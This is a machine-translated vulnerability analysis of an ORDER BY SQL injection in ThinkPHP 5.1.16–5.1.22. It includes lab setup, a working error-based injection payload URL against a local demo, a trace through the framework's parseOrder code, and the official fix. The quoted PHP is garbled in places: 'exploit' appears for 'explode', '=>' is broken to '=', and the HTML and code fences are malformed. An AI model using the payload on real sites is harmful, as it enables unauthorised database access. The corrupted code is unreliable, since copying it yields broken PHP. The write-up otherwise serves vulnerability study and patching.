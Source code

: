 # ThinkPHP5.1.x SQL Injection (OrderBy)

Author: H3rmesk1t

Data: 2021.08.14

# Vulnerability Summary
- This vulnerability exists in the parseOrder method of the Builder class. Since the program does not filter the data well, it directly splices the data into SQL statements, which ultimately leads to the occurrence of SQL injection vulnerability.
- Vulnerability impact version: 5.1.16<=ThinkPHP5<=5.1.22

# Initial configuration
Get the test environment code

```bash
composer create-project --prefer-dist topthink/think=5.1.22 tpdemo
```
![Insert the picture description here](https://img-blog.csdnimg.cn/dd8a746b98b14814b42c1b38f4a9a21b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

```bash
"require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.22"
    },
```

Then execute `composer update`

![Insert the picture description here](https://img-blog.csdnimg.cn/9b78c4a288c5418a8752cc3c7c00157d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

In the downloaded source code, the content of `application/index/controller/Index.php` needs to be modified.

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $orderby = request()->get('orderby');
        $result = db('users')->where(['username' ='mochazz'])->order($orderby)->find();
        var_dump($result);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:) </h1><pThinkPHP V5.1<br/><span style="font-size:30px">12 years of original intention remains unchanged (2006-2018) - Your trustworthy PHP framework</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }
}
```

Configure database-related information in the `config/database.php` file, and enable `app_debug` and `app_trace` in `config/app.php` to create the database information as follows

````sql
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# Vulnerability Exploit

Payload

````bas
http://127.0.0.1/cms/public/index.php?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1
```
![Insert the picture description here](https://img-blog.csdnimg.cn/c132f957a0b241d989339f8b8e2b74d7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis

First, the data will enter the `input` method in the `Request` class, and will be filtered and casted by the `filterValue` method and return `$data`

![Insert the picture description here](https://img-blog.csdnimg.cn/a879dfacf595446e87b72613aa1e1c19.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Here, the `array_walk_recursive` function recursively calls the `filterValue` filter function to the members in the array, but the `filterValue` filter function, but the `key` of the array, only filters the `value` of the array. The data entered by the user will enter the SQL query method of the framework as it is, and enters the `Query` class

![Insert the picture description here](https://img-blog.csdnimg.cn/cb404680cc874cf1b17cfcec3420ad1d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![Insert the picture description here](https://img-blog.csdnimg.cn/3cf76fc4d95a4ffda18cab595387af93.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Malicious Payload is passed directly to `options['order']` without any filtering

![Insert the picture description here](https://img-blog.csdnimg.cn/6ac2d9f671c44a7289913e6ee1bad32a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Then call the `find` method, here `$this->connection` is the `think/db/connection/Mysql` class, inheriting from the `Connection` class, so continue to call the `find` method of this class here

!
[Insert the image description here](https://img-blog.csdnimg.cn/4dccfe114bc4402f9df5aae820915734.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/6f81151b864a4ec99a7b8d65e1e0996a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

This method continues to call the `$this->builder`, that is, the `select` method of the `think/db/builder/Mysql` class. This method uses the `str_replace` function to fill the data into the SQL statement.

![Insert the picture description here](https://img-blog.csdnimg.cn/24ff9d25efd4471584f51cad77e74cce.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Then the `parseOrder` method is called and the method is followed up. `$order` is the input data. Then, after the `parseKey` method is processed, it is returned to `$array`, and follow up to view the implementation of the method

```php
protected function parseOrder(Query $query, $order)
    {
        if (empty($order)) {
            return '';
        }

        $array = [];

        foreach ($order as $key =$val) {
            if ($val instanceof Expression) {
                $array[] = $val->getValue();
            } elseif (is_array($val)) {
                $array[] = $this->parseOrderField($query, $key, $val);
            } elseif ('[rand]' == $val) {
                $array[] = $this->parseRand($query);
            } else {
                if (is_numeric($key)) {
                    list($key, $sort) = exploit(' ', strpos($val, ' ') ? $val : $val . ' ');
                } else {
                    $sort = $val;
                }

                $sort = strtoupper($sort);
                $sort = in_array($sort, ['ASC', 'DESC'], true) ? ' ' . $sort : '';
                $array[] = $this->parseKey($query, $key, true) . $sort;
            }
        }

        return ' ORDER BY ' . implode(',', $array);
    }
```

Follow up `thinkphp/library/think/db/builder/Mysql.php`, which adds backticks to both ends of the variable `$key` for splicing without any filtering

![Insert the picture description here](https://img-blog.csdnimg.cn/62ae9f308d0e4ba88cb53cd6ec2c6862.png#pic_center)

Finally, a SQL injection payload with ORDER BY is returned to the SQL statement to be executed, implementing ORDER BY injection

![Insert the picture description here](https://img-blog.csdnimg.cn/cfac012337e04fa88fedf30be2ed7973.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Complete method call, from bottom to top

![Insert the picture description here](https://img-blog.csdnimg.cn/def8944016494bcb8a55675674e0c0b2.png#pic_center)
# Vulnerability Fix

The official fix is: check the variable before splicing the string to see if there are two symbols: `) and #`

![Insert the picture description here](https://img-blog.csdnimg.cn/c8018d097195471d915b005dc70f489b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Attack summary

Refer to Master Mochazz's audit process

![Insert the picture description here](https://img-blog.csdnimg.cn/8cc7f936972f41769c25c9f623ad8f07.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)